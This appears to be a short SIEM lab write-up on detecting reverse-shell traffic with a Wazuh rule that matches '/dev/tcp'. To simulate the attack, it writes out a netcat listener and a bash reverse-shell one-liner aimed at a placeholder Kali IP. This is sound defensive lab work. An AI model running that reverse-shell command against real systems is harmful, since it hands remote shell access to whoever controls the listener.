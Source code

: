 # Command and Control (C2) Traffic Detection (Reverse Shell)

**Simulate with Netcat:**

**On Kali:**

    nc -lvnp 5555

**On Ubuntu:**

    bash -i >& /dev/tcp/<kali-ip>/5555 0>&1
________________________________________
**Wazuh rule:**

    <rule id="101400" level="15">
      <match>/dev/tcp</match>
      <description>Possible reverse shell detected</description>
      <mitre>
        <id>T1071</id>
        <id>T1059</id>
      </mitre>
    </rule>
The Restart the wazuh 

# Proof-Of-Concept 

![Reverse Shell](https://github.com/Gagancybersec01/SIEM-Internship-Phase-1/blob/f07bcdca56b0a658124ed1186b31757962f2c787/Screenshots/Reverse-Shell.png)




